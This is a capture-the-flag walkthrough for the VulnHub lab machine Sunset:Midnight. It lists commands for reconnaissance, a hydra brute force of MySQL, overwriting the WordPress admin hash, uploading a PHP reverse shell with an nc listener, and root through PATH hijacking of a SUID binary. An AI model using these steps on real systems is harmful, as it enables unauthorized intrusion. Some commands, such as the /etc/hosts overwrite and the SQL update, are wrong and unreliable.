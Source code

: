 


# Sunset:Midnight Walkthrough 

**VulnHub Link:** [Sunset:Midnight](https://www.vulnhub.com/entry/sunset-midnight,517/)
**Difficulty:** Easy
**Release Date:** 19 Jul 2020


## 1.Reconnaissance

nmap -A -O -T4 -P -sV 192.168.100.153


## 2.Web Enumeration

whatweb http://192.168.100.153


sudo echo "192.168.100.153    sunset-mignight" > /etc/hosts

## 3.Brute Forcing

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt mysql://192.168.100.153 -I
```

robert found

```bash
mysql -h 192.168.100.153 -u root -p
```

we saw that we cant crack hashes of wp_users who is admin
we generate a hash from hash generator websites

and then ---->
```bash
use wordpress_db;
update wp_users password="<hash>" where user='admin';
```

we can login to wordpress site which we generate before 

we upload reverse_shell.php in plugins page

then open /wp-content/uploads/2025/reverse_shell.php

Warning: listen before executing shell payload ..!
```bash
rlwrap nc -nvlp 1234
```

then we got www-data shell.

in /var/www/html/wordpress/wp-config.php , we got jose password

after gaining jose shell

## 4.Privilege Escalation

```bash
find / -perm /4000 2>/dev/null
```

we observe that /usr/bin/status has suid byte

```bash
strings /usr/bin/status
echo "/bin/sh" > /tmp/service
chmod +x /tmp/service
export PATH=/tmp:$PATH
/usr/bin/status
```

and BINGO ..! We got ROOT shell Successfully....!


